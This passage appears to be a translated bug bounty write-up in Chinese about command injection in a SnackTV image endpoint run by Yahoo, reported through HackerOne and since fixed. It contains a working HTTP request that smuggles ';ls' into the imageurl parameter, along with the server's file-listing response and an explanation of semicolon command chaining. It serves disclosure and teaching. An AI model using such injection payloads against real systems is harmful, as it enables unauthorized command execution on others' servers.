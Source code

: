 ```
```



我發出這個請求的原因是
- 在最初的 proof of concept XML文 件中，我們通過雙引號（或可能是單引號）來限制URL 實體(entity)
- 如果發送一個雙引號，我們可以迫使 server 擺脫這個範圍，並對命令的寫入位置有寫入權限（見上面的概念證明內容）

哼! 沒有辦法! 這是在運行 ImageMagick! 我是不是以某種方式破壞了執行？這是命令行內容嗎？我應該發送額外的內容:  
```
REQUEST

GET /imged/getImg.php?imageurl=";ls HTTP/1.1
Host: snacktv.de
Connection: close
Upgrade-Insecure-Requests: 1

RESPONSE

By default, the image format is determined by its magic number.
To specify a particular image format, precede the filename with an image format name and a colon (i.e. ps:image)...
... or specify the image type as the filename suffix (i.e. image.ps). Specify file as - for standard input or output.
[redacted]
[redacted]
index.php
getImage.php
[redacted]
[redacted]

```

我之所以發送上面列出的字符串是**為了逃避第一個命令的範圍**
- **在 Linux 環境下，你可以將分號(;)附加到你的初始命令上，然後開始編寫第二個命令**
- 這對攻擊者很有用，因為它允許在最初的預定義內容之外執行。


我很興奮。在我的狩獵生涯中，我第一次實現了 command injection
- 在這之前的測試過程中，我總是覺得發送引號和分號來實現 command injection 的做法很傻，但這完全改變了我的觀點。


在發現後不久，我通過 HackerOne 的 Yahoo 報告了這個問題
- 在 24 小時內收到了回复，並在另外 6 小時內修復了這個錯誤

## Overview
你以為會有第四步？沒有，沒有。我們是有道德的黑客，記得嗎？  

在攻擊了 SnackTV 之後，它讓我意識到錯誤的 implementations 可能是多麼嚴重
- 該 server 沒有通過通用的方法受到 ImageTragick 的攻擊
- 因為它沒有遵循標準的格式，而是非常類似和自定義的東西
- 如果你不能弄清楚你確定是易受攻擊的東西，有時重新設定你的想法並從根本上攻擊它是好的。它允許哪些字符，哪些會被拒絕？你的輸入可以有多長？在反應上有什麼不同？

在 Yahoo 的大型 app 中呆了好幾天之後，攻擊這樣一個多汁的平台，讓人感到非常振奮和新鮮

獎勵：3,000 美元